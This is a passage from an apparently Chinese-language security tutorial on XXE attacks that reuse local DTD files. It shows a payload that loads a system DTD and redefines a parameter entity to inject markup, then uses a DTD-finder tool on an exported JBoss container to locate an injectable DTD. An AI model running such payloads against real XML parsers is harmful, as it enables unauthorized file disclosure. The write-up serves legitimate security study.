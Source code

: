 ```plain
<!DOCTYPE xxe[
<!ENTITY x SYSTEM "file:///usr/share/xyz/legit.dtd"> 
<!ENTITY % injectable 'injecting)> You Control Contents inside this DTD now!!! <!ENTITY % fake ('>
%x;
]>
<root>
..
</root>
```

然后，解析的 XML 内容将从现在  
`<!ENTITY % random (%injectable;)>`变为<!ENTITY % random (**injecting)> You Control Contents inside this DTD now!!! <!ENTITY % fake (**)>

# 0x08 本地 DTD 发现

GoSecure 还发布了一种工具来查找 DTD，该 DTD 包含可注入实体，并以 Docker 容器的导出文件系统为输入。所以我拉取了特定版本的 JBoss Docker 镜像，启动了它，并使用以下命令将该 Docker Container 导出到文件系统：

```plain
$ docker export {container} -o jboss.tar
$ java -jar dtd-finder-1.0-all.jar jboss.tar
```

[![](assets/1704850652-489b1f389a50470141e3bad16dba7859.png)](https://cdn.nlark.com/yuque/0/2019/png/336528/1575814419125-b2894fc8-27c5-40c1-b71a-32b3b72bffea.png#align=left&display=inline&height=412&name=image.png&originHeight=823&originWidth=1494&size=197710&status=done&style=none&width=747)

它在目标 JBoss Docker 容器的文件系统的 jar / zip 文件中发现了一些带有可注入实体的 DTD。  
发现以下 jar/modules/system/layers/base/org/jboss/security/xacml/main/jbossxacml-x.x.x.Final-redhat-x.jar，其中里面有`/schema/xmlschema/XMLSchema.dtd`文件，该文件包含名为**“ xs-datatypes”**的可注入实体  
下面是 XMLSchema.dtd 的内容：

